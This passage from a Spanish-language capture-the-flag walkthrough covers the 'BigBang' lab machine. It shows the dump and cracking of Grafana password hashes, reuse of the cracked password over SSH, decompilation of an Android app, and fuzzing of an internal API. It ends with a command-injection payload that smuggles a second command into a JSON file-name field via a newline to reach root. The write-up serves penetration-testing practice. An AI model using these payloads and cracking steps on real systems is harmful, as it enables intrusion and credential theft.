dashboard_version            team                       
data_keys                    team_member                
data_source                  team_role                  
entity_event                 temp_user                  
file                         test_data                  
file_meta                    user                       
folder                       user_auth                  
kv_store                     user_auth_token            
library_element              user_role
```

La de `users` es la más interesante: 
```bash 
sqlite> .headers on
sqlite> .mode columns
sqlite> select * from user; 
id  version  login      email                name           password                                                      salt        rands       company  org_id  is_admin  email_verified  theme  created              updated              help_flags1  last_seen_at         is_disabled  is_service_account  uid           
--  -------  ---------  -------------------  -------------  ------------------------------------------------------------  ----------  ----------  -------  ------  --------  --------------  -----  -------------------  -------------------  -----------  -------------------  -----------  ------------------  --------------
1   0        admin      admin@localhost                     441a715bd788e928170be7954b17cb19de835a2dedfdece8c65327cb1d9b  CFn7zMsQpf  CgJll8Bmss           1       1         0                      2024-06-05 16:14:51  2024-06-05 16:16:02  0            2024-06-05 16:16:02  0            0                                 
                                                            a6bd47d70edb7421b05d9706ba6147cb71973a34                                                                                                                                                                                                                           

2   0        developer  ghubble@bigbang.htb  George Hubble  7e8018a4210efbaeb12f0115580a476fe8f98a4f9bada2720e652654860c  4umebBJucv  0Whk1JNfa3           1       0         0                      2024-06-05 16:17:32  2025-01-20 16:27:39  0            2025-01-20 16:27:19  0            0                   ednvnl5nqhse8d
                                                            59db93577b12201c0151256375d6f883f1b8d960
```

Son contraseñas salteadas, y que herramientas como haschcat no soportan este formato que maneja grafana, en el siguiente [repo](https://github.com/iamaldi/grafana2hashcat)

Así que nos clonamos el repo,copiamos los hashes obtenidos: 
```bash
┌──(kali㉿kali)-[~/labs-hack/bigbang/grafana2hashcat]
└─$ cat hashes
441a715bd788e928170be7954b17cb19de835a2dedfdece8c65327cb1d9ba6bd47d70edb7421b05d9706ba6147cb71973a34,CFn7zMsQpf
7e8018a4210efbaeb12f0115580a476fe8f98a4f9bada2720e652654860c59db93577b12201c0151256375d6f883f1b8d960,4umebBJucv
```

Aplicamos el script y obtenemos los hashes: 
```bash 
┌──(kali㉿kali)-[~/labs-hack/bigbang/grafana2hashcat]
└─$ python3 grafana2hashcat.py hashes -o grafanahashes

[+] Grafana2Hashcat
[+] Reading Grafana hashes from:  hashes
[+] Done! Read 2 hashes in total.
[+] Converting hashes...
[+] Converting hashes complete.
[+] Writing output to 'grafanahashes' file.
[+] Now, you can run Hashcat with the following command, for example:

hashcat -m 10900 hashcat_hashes.txt --wordlist wordlist.txt

──(kali㉿kali)-[~/labs-hack/bigbang/grafana2hashcat]
└─$ cat grafanahashes
sha256:10000:Q0ZuN3pNc1FwZg==:RBpxW9eI6SgXC+eVSxfLGd6DWi3t/ezoxlMnyx2bpr1H1w7bdCGwXZcGumFHy3GXOjQ=
sha256:10000:NHVtZWJCSnVjdg==:foAYpCEO+66xLwEVWApHb+j5ik+braJyDmUmVIYMWduTV3sSIBwBUSVjddb4g/G42WA= 
```

Y ya se pueden crackear con hashcat
```bash 
$ hashcat grafanahashes_hashcat rockyou.txt
``` 

Con una buena pc encontrarán que la contraseña es `bigbang`

Y la contraseña se reutiliza, también sirve para ssh:
```bash 
shawking@bigbang:~$ su - developer
Password: 
developer@bigbang:~$ 

┌──(kali㉿kali)-[~/labs-hack/bigbang/www]
└─$ ssh developer@10.10.11.52                                                  
developer@10.10.11.52's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-130-generic x86_64)

 System information as of Thu May 15 04:19:10 AM UTC 2025

  System load:  0.08              Processes:             189
  Usage of /:   67.7% of 9.74GB   Users logged in:       1
  Memory usage: 32%               IPv4 address for eth0: 10.10.11.52
  Swap usage:   0%

developer@bigbang:~$
```

<h2 style="color: #9FEF00;"> Escalada de privilegios.</h2>

Este usuario tiene una apk: 
```bash 
developer@bigbang:~/android$ ls
satellite-app.apk
```

Vamos a anlizarla con [appetize.io](https://appetize.io/), buena heraamienta para analizar apk's

Pero parece que hay otra forma más sencilla de hacerlo, solo necesitamos extraer el contenido del apk: 
```bash
┌──(kali㉿kali)-[~/labs-hack/bigbang/apk]
└─$ 7z x satellite-app.apk

┌──(kali㉿kali)-[~/labs-hack/bigbang/apk]
└─$ ls
AndroidManifest.xml  classes.dex  kotlin  META-INF  okhttp3  res  resources.arsc  satellite-app.apk 

┌──(kali㉿kali)-[~/labs-hack/bigbang/apk]
└─$ jadx $(pwd)/classes.dex -d $(pwd)
INFO  - loading ...
INFO  - processing ...
INFO  - done
```
jadx es una herramienta de decompilación de archivos APK/Dex, escrita en Java, que convierte archivos .dex (Dalvik Executable) a código fuente Java legible. Es decir, te permite ver y analizar el código de aplicaciones Android, incluso si no tienes el código fuente original. `sudo apt install jadx`


Lo que se hace después es analizar el código de la aplicación, se analizan las funciones y con ese se deterima la forma en la que se pueden hacer peticiones légitimas, esto se hace iniciando un tunel por ssh

```bash 
$ ssh -L 9090:localhost:9090 developer@10.10.11.52
```

Se añade app.bigbang.htb al /etc/hosts

Y partir de aquì se empiezan a realizar las peticiones: 

```bash 
──(kali㉿kali)-[~]                                                                                
└─$ curl app.bigbang.htb:9090/command -d '{"command": "send_image", "output_file": "test.png\nping 
-c 1 10.10.14.103"}' -H "Content-Type: application/json" -H "Authorization: Bearer $token"         
{"msg":"Bad Authorization header. Expected 'Authorization: Bearer <JWT>'"}

┌──(kali㉿kali)-[~]                                                                                
└─$ token=$(curl localhost:9090/login -d '{"username": "developer", "password": "bigbang"}' -H "Hos
t: app.bigbang.htb" -H "Content-Type: application/json" -s | jq .access_token -r)
```

Lo interesante de esto es que se descubre que la aplicaciòn bloquea el uso de algunos caracteres en el backen, lanzando un error de que no se soportan dichos caracteres peligrosos, entonces se aplica fuzzin para descubirir cuales son: 

```bash 
┌──(kali㉿kali)-[~]                                                                                                                                                                          
└─$ ffuf -u http://app.bigbang.htb:9090/command -d '{"command": "send_image", "output_file": "test.pngFUZZ"}' -H "Content-Type: application/json" -H "Authorization: Bearer $token" -w /usr/s
hare/seclists/Fuzzing/alphanum-case-extra.txt -mr dangerous                                                                                                                                  
                                                                                                                                                                                             
        /'___\  /'___\           /'___\                                                                                                                                                      
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                                                                      
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                                                                     
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                                                                     
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                                                                      
          \/_/    \/_/   \/___/    \/_/                                                                                                                                                      
                                                                                                                                                                                             
       v2.1.0-dev                                                                                                                                                                            
________________________________________________                                                                                                                                             
                                                                                                                                                                                             
 :: Method           : POST                                                                                                                                                                  
 :: URL              : http://app.bigbang.htb:9090/command
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/alphanum-case-extra.txt
 :: Header           : Content-Type: application/json
 :: Header           : Authorization: Bearer <SNIP>
 :: Data             : {"command": "send_image", "output_file": "test.pngFUZZ"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: dangerous
________________________________________________

'                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 295ms]
&                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 342ms]
?                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 336ms]
(                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 396ms]
<                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 392ms]
>                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 436ms]
$                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 461ms]
;                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 471ms]
!                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 463ms]
*                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 521ms]
+                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 463ms]
)                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 463ms]
#                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 493ms]
%                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 543ms]
]                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 354ms]
^                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 392ms]
`                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 395ms]
[                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 441ms]
{                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 227ms]
|                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 227ms]
}                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 222ms]
:: Progress: [95/95] :: Job [1/1] :: 97 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```


Y con esto se logra la inyección de comando, añadiendo un salto de línea:
```bash
$ curl app.bigbang.htb:9090/command -d '{"command": "send_image", "output_file": "test.png\nping -c 1 10.10.14.6"}' -H "Content-Type: application/json" -H "Authorization: Bearer $token"
```

Esto porque en python, con `subprocess.run`, si esta seteado `shell=True`, cada linea funciona como otro comando

Con esto se crea una shell con permisos de root(bit SUID). 


